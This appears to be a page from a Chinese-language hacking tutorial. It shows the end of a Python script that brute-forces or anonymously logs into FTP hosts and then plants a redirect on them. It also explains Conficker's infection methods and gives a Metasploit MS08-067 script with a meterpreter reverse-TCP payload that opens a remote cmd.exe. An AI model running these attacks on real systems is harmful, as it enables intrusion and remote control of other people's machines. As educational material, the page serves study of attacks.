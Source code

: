 ```python
    parser.add_option("-r", dest="redirect", type=str, help="specify a redirection page")

    options, args = parser.parse_args()
    target_hosts = str(options.target_hosts).split(", ")
    password_file = options.password_file
    redirect = options.redirect

    if target_hosts is None or redirect is None:
        print(parser.usage)
        exit(-1)

    for target_host in target_hosts:
        username, password = None, None
        if anon_login(target_host):
            username, password = "test", "test"
            print("[+] Using Anonymous Creds to attack")
            attack(username, password, target_host, redirect)
        elif password_file is not None:
            username, password = brute_login(target_host, password_file)
            if password is not None:
                print("[+] Using Creds: {}/{} to attack".format(username, password))
                attack(username, password, target_host, redirect)

if __name__ == "__main__":
    main()
```
## Conficker，为什么努力做就够了

蠕虫病毒，Conficker（或称为 W32DownandUp），在其基本的感染方法中，Conficker 蠕虫使用了两种不同的攻击方法。首先利用了 Windows 服务器中一个服务的 0Day 漏洞。利用这个栈溢出漏洞，蠕虫能在被感染的主机上执行 ShellCode 并下载蠕虫。当这种攻击失败时，Conficker 蠕虫又尝试暴力破解默认的管理员网络共享（`ADMIN$`）的口令以获取肉机访问权。

### 使用 Metasploit 攻击 Windows SMB 服务

虽然攻击者可以通过交互驱动的方式使用 Metasploit，但 Metasploit 也能读取批处理脚本（rc）完成攻击。在攻击时，Metasploit 会顺序执行批处理文件中的命令。

```shell
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.37
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.77.77
set LPORT 7777
exploit -j -z

msfconsole -r conficker.rc
> sessions -i 1
> execute -i -f cmd.exe
```

### 编写 Python 脚本与 Metasploit 交互
